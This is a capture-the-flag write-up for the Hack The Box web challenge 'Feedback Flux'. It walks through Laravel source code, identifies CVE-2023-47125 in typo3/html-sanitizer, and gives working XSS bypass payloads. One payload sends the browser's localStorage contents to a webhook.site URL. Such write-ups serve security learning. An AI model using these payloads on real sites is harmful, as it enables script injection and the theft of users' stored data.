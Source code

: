 ```yaml
---
title: Feedback Flux - Hack The Box
date: 2024-12-27
---
```


<script setup>
    import ChallengeCard from "../../../../../.vitepress/components/ChallengeCard.vue";
</script>

# Feedback Flux

## Challenge Description

You're a member of fsociety tasked with infiltrating E Corp's Feedback Flux system. There's a vulnerability hidden deep
within their feedback platform, and it's your job to find and exploit it.

## Challenge Overview

When we navigate to the challenge, we are presented with a feedback form that allows us to submit feedback. The feedback
form includes a text area for the message and a submit button to send the feedback to the server. We also have the list
of feedbacks that have already been submitted.

![Feedback Flux - Overview](/ctf/hack-the-box/challenges/web/feedback-flux/overview.png)

## Code Overview

### Technologies used

- [Laravel](https://laravel.com/) Laravel is a web application framework with expressive, elegant syntax.
- [PHP](https://www.php.net/) PHP is a popular general-purpose scripting language that is especially suited to web
  development.
- [MySQL](https://www.mysql.com/) MySQL is an open-source relational database management system.

### Feedback Form Submission

When we submit feedback, the server processes the feedback and stores it in a database.

```php
public function store(Request $request)
{
    $data = $request->validate([
        'feedback' => ['required', 'string']
    ]);

    $commonAttrs = [
        new Behavior\Attr('id'),
        new Behavior\Attr('class'),
        new Behavior\Attr('data-', Behavior\Attr::NAME_PREFIX),
    ];
    $hrefAttr = (new Behavior\Attr('href'))
        ->addValues(new Behavior\RegExpAttrValue('#^https?://#'));
    
    $behavior = (new Behavior())
        ->withFlags(Behavior::ENCODE_INVALID_TAG | Behavior::ENCODE_INVALID_COMMENT)
        ->withoutNodes(new Behavior\Comment())
        ->withNodes(new Behavior\CdataSection())
        ->withTags(
            (new Behavior\Tag('div', Behavior\Tag::ALLOW_CHILDREN))
                ->addAttrs(...$commonAttrs),
            (new Behavior\Tag('a', Behavior\Tag::ALLOW_CHILDREN))
                ->addAttrs(...$commonAttrs)
                ->addAttrs($hrefAttr->withFlags(Behavior\Attr::MANDATORY)),
            (new Behavior\Tag('br'))
        )
        ->withNodes(
            (new Behavior\NodeHandler(
                new Behavior\Tag('typo3'),
                new Behavior\Handler\ClosureHandler(
                    static function (NodeInterface $node, ?DOMNode $domNode): ?DOMNode {
                        return $domNode === null
                            ? null
                            : new DOMText(sprintf('%s says: "%s"',
                                strtoupper($domNode->nodeName),
                                $domNode->textContent
                            ));
                    }
                )
            ))
        );
    
    $visitors = [new CommonVisitor($behavior)];
    $sanitizer = new Sanitizer($behavior, ...$visitors);
    $data['feedback'] = $sanitizer->sanitize($data['feedback']);

    Feedback::create($data);

    AdminBot::dispatch();
    return to_route('feedback.create')->with('message', 'Feedback submitted!');
}
```

The server sanitizes the feedback using a [`typo3/html-sanitizer`](https://github.com/TYPO3/html-sanitizer) package
before storing it in the database. Then a job is dispatched to the queue to notify the admin about the new feedback.

### Admin Bot

The `AdminBot` job is responsible for storing the flag in the local storage of the browser. The flag is read from the
`/flag.txt` file and stored in the local storage of the browser. The bot then navigates to the feedback page and waits
for 2 seconds before closing the browser.

```php
public function handle(): void
{
    $flagPath = '/flag.txt';
    if (!file_exists($flagPath) || !is_readable($flagPath)) {
        Log::error("Flag file not found or unreadable at $flagPath");
        return;
    }

    $flag = trim(file_get_contents($flagPath));
    $browserFactory = new BrowserFactory();
    $domain = '127.0.0.1';

    $browser = $browserFactory->createBrowser([
        "noSandbox" => true,
    ]);

    try {
        $page = $browser->createPage();

        $page->navigate('http://127.0.0.1:8000')->waitForNavigation();

        $page->evaluate(sprintf(
            'localStorage.setItem("flag", "%s"); console.log("Flag stored in localStorage");',
            $flag
        ));
        $page->evaluate('console.log("Flag in localStorage:", localStorage.getItem("flag"));');
        $page->navigate('http://127.0.0.1:8000/feedback')->waitForNavigation();

        usleep(2000000);

    } catch (\Exception $e) {
        Log::error("Error in AdminBot job: " . $e->getMessage());
    } finally {
        $browser->close();
    }
}
```

Let's find the vulnerability in the feedback form and exploit it to get the flag.

## Finding the Vulnerability

Looking at the `composer.json` file, who is in Laravel the file that contains the dependencies of the project, we can
see that the `typo3/html-sanitizer` package is being used.

```json
{
    "require": {
        ...
        "typo3/html-sanitizer": "2.1.3",
        ...
    }
}
```

Surfing on the web we found a CVE related to the `typo3/html-sanitizer` package.
The [CVE-2023-47125](https://github.com/advisories/GHSA-mm79-jhqm-9j54) is a vulnerability who allows to bypass the HTML
sanitizer and execute arbitrary JavaScript code.

## Exploiting

To exploit the vulnerability, we need to craft a payload that will bypass the HTML sanitizer and execute JavaScript
code. To do this, we found this [issue](https://github.com/Masterminds/html5-php/issues/241) on github that explains how
to bypass the sanitizer.

To bypass the sanitizer, we need to create a POC that will trigger the vulnerability. We can use the following payload
to trigger a XSS.

```html
<?xml ><img src=x onerror=alert(1)> ?>
```

Going on the `/feedback` page after submitting the feedback, we can see that the payload is executed and the alert is
shown.

![Feedback Flux - XSS](/ctf/hack-the-box/challenges/web/feedback-flux/xss.png){style="display: block; margin: 0 auto"}

Now that we have a working XSS payload, we can craft a payload that will steal the flag from the local storage of the
browser. To do this, we can use the (`Webhook`)[https://webhook.site/] service to send the flag to our webhook.

```html
<?xml ><img src=x onerror=fetch("https://webhook.site/your-webhook-url?flag=" + localStorage.getItem("flag"))> ?>
```

::: warning

Don't forget to replace `your-webhook-url` with your webhook URL.

:::

After submitting the feedback, we can see that the flag is sent to our webhook.

![Feedback Flux - Flag](/ctf/hack-the-box/challenges/web/feedback-flux/flag.png)

Using the same technique, we can steal the real flag.

<ChallengeCard
    challengeType="web"
    challengeName="Feedback Flux"
    htbCardLink="https://www.hackthebox.com/achievement/challenge/585215/782"
/>

## Reference

- [Webhook Site](https://webhook.site/)